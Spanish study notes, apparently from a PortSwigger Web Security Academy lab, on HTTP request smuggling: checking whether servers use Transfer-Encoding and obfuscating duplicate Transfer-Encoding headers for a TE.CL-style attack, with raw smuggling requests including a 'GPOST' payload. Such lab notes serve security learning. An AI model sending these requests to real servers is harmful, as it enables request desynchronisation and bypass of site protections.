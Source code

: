 La forma de confirmar que el backend está usa Transfer-Encoding:
![[Pasted image 20240801085807.png]]
En este caso obtendríamos una reject inmediata porque X es inválido sin un número que aclare los bytes previamente

Para confirmar que está usando Transfer-Encoding:
~~~
POST /ABOUT HTTP/1.1
Host: example.com
Transfer-Encoding: chunked           
Content-Length: 6           

0

X
~~~
![[Pasted image 20240731173627.png]]
Que acepte la siguiente petición significa que tanot el frontend como el backend están utilizando trasfer-encoding
![[Pasted image 20240801091016.png]]
El frontend dropea la equis y el backend, leyendo también el body acepta la petición como válida. Esto es (además de una incorrecta sanetización) indicativo a que ambas usan TE.

La ofuscación del TE (TE obfuscating) consiste

EL frontend acepta la petición pero al tener los dos Transfer-Encoding duplicados el backend lo niega y se queda solo con el Transfer-Encoding. Esto puede pasar porque tienen diferentes versiones de los servidores web, tal vez un nginx en el frontend y un caddy en el backend, o ambos usan caddy pero deiferentes versiones
![[Pasted image 20240801091815.png]]
Por lo que el ataque se torna en una especie de TE.CL
![[Pasted image 20240801094705.png]]
La siguiente petición, si esta igual (nunca olvidar los carriage) retorna un 200 OK
![[Pasted image 20240801094852.png]]

```
POST / HTTP/1.1

Host: 0ab000f504d4904a8048eef4005900ea.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 4

Transfer-Encoding: chunked

Transfer-Encoding: foobar



5c

GPOST / HTTP/1.1

Content-Type: application/x-www-form-urlencoded

Content-Length: 11



X=1

0




```